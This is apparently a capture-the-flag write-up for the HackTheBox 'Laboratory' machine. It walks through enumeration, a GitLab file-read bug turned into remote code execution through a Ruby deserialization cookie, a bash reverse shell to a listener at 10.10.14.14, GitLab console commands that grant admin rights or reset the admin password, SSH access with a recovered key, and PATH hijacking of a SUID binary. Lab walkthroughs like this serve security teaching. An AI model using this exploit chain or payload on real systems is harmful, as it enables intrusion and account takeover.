



# Laboratory
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
|_http-title: Did not follow redirect to https://laboratory.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
we can see that this os is running Upunto and has only three ports opened: 22, 80, 443, as we can see port 80 is redirecting to port 443, so without further doing let's dig into the site.  
As we open the site we can see pretti much nothing, also directory enumeration doesn't show anything interesting, so now let's proceed with vhost enumeration.  
As we try to enumerate the webserver we forgoto to set the -k options for do not validate certificates and we do get the following error:  
```
[root@kali Laboratory ]$ gobuster vhost -u https://laboratory.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt        
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          https://laboratory.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/05/20 15:11:44 Starting gobuster in VHOST enumeration mode
===============================================================
Error: error on running gobuster: unable to connect to https://laboratory.htb/: invalid certificate: x509: certificate is valid for git.laboratory.htb, not laboratory.htb

```
So we can see that the certificate is signed for git.laboratory.htb and not for laboratory.htb.  
The same is confirmed aloso when running gobuster for vhost enumeration:  
```
[root@kali Laboratory ]$ gobuster vhost -k -u https://laboratory.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -t10
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          https://laboratory.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/05/20 15:13:04 Starting gobuster in VHOST enumeration mode
===============================================================
Found: git.laboratory.htb (Status: 302) [Size: 105]
```
Now, let's dig into this virtualhost.  
As we open the page we can see a gitlab signup page here we can create an account and access the platform.  
Once we are in we can poke around and grab the server version.  

Now, poking around on google we can came across [this hackerOne Article](https://hackerone.com/reports/827052)that shows how to perform an LFI/RCE with this version of gitlab.

## Foothold 
Once we've identified the exploit we can test if the exploit works against the target gitlab server.  
Following the steps to reproduce we can include /etc/passwd as shown below

Now as reported on [this hackerOne Article](https://hackerone.com/reports/827052) we can turn this LFI to an RCE by downloading ````/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml```` once we download this file, we can grab ```secret_key_base``` value and put this value into one gitlab instace that we can spawn ourselfes and generate a payload to exploit a RoR deserialization issue.  
Now let's pull up a gitlab docker container.  
```
docker pull gitlab/gitlab-ce:12.8.0-ce.0 
```
Once we downloaded the docker image we can  run the container 
```
sudo docker run --detach \
  --hostname gitlab.example.com \
  --publish 443:443 --publish 80:80 --publish 22:22 \
  --name gitlab-12.8 \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  --shm-size 256m \
  gitlab/gitlab-ce:12.8.0-ce.0
```
Once the container is up we can run bash
```
docker exec -it gitlab-12.8 /bin/bash
```
edit the ````/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml```` file and change the ```secret_key_base``` value to match the one found on the target machine.  
Now it's time to generate the payload, to do so we can run ```gitlab-rails console``` and paste the following code snippet:  
```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
Once the code is executed, we will get something like: 
```
BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kidSNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzkwMDEgMD4mMSdgICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--211fe378ff9f3327a21f95ab98ea36c846c94e66
```
Now, we can use this string into the cookie value to obtain a reverse shell:
```
curl -vvv -k 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kidSNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzkwMDEgMD4mMSdgICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--211fe378ff9f3327a21f95ab98ea36c846c94e66"
```
And we get a shell as user gitlab:
```
root@kali:~/Documents/HTB/Boxes/Laboratory# nc -lvnp 9001                                                                                                                                                                                    
listening on [any] 9001 ...                                                                                                                                                                                                                  
connect to [10.10.14.14] from (UNKNOWN) [172.17.0.2] 36324                                                                                                                                                                                   
git@gitlab:/opt/gitlab/embedded/service/gitlab-rails$   
```
## User
Once we are in into the box we can run [deepce to find container privilege escalation paths](https://github.com/stealthcopter/deepce) unfortunately nothing obvious pop up, so, nex thing we want run again ```gitlab-rails console```  and set our previously created account as admin.  
```
irb(main):010:0> user = User.find(5)                       
=> #<User id:5 @b0d>                                       
irb(main):011:0> pp user.attributes
[... SNIP ...]
irb(main):012:0> user.admin = true
"admin"=>true
irb(main):013:0> u.save!
```
An alternative way to do this (even if requeres 'noisy' changes on the database) is to reset the password of the current admin user:
```
irb(main):027:0> u = User.find(1)                          
=> #<User id:1 @dexter>                                    
irb(main):028:0> u.password='Password'                     
=> "Password"                                              
irb(main):029:0> u.password_confirmation='Password'        
=> "Password"                                              
irb(main):030:0> u.save!
```
in both cases now we can login to gitlab UI as admin and look around for possible sensitive data:  


Poking around on the existing repositories we can find an ssh private key for user dexter:  

Now we can use this key to login into the box:  
```
[root@kali keys ]$ ssh -l dexter $TARGET                   
The authenticity of host '10.10.10.216 (10.10.10.216)' can't be established.                                          
ED25519 key fingerprint is SHA256:c2Av7TZmXzWQlFQEncuNK4MKeuu4bJutYUCRc2yq6LM.                                        
This key is not known by any other names                   
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                              
Warning: Permanently added '10.10.10.216' (ED25519) to the list of known hosts.                                       
dexter@10.10.10.216: Permission denied (publickey).        
[root@kali keys ]$ ssh -l dexter -i id_rsa_dexter $TARGET  
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)                                                 
dexter@laboratory:~$ 
```
## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice a non-commond SUID binary:  
```
                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Interesting Files ╠═════════════════════════════════════════
                                         ╚═══════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strings Not Found
[... SNIP ...]
-rwsr-xr-x 1 root dexter 17K Aug 28  2020 /usr/local/bin/docker-security (Unknown SUID binary)
```
if we try to run this binary we do not get any prompt:  
```
dexter@laboratory:~$ /usr/local/bin/docker-security
dexter@laboratory:~$
```
Now we can try to run ```ltrace``` against this and see what we can get:  
```
dexter@laboratory:~$ ltrace /usr/local/bin/docker-security
setuid(0)                                                                                                                                          = -1
setgid(0)                                                                                                                                          = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 256
+++ exited (status 0) +++
```
as we can see the binary is performing ```setuid(0)``` and ```setgid(0)```, after that, it is performing a chmod without the full path.  
Now we can simply perform path hijacking and gain a shell as root:  
```
dexter@laboratory:~$ vi chmod
dexter@laboratory:~$ chmod +x chmod
dexter@laboratory:~$ export PATH=$(pwd):$PATH
dexter@laboratory:~$ echo $PATH
/home/dexter:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
dexter@laboratory:~$ /usr/local/bin/docker-security
root@laboratory:~# id
uid=0(root) gid=0(root) groups=0(root),1000(dexter)
```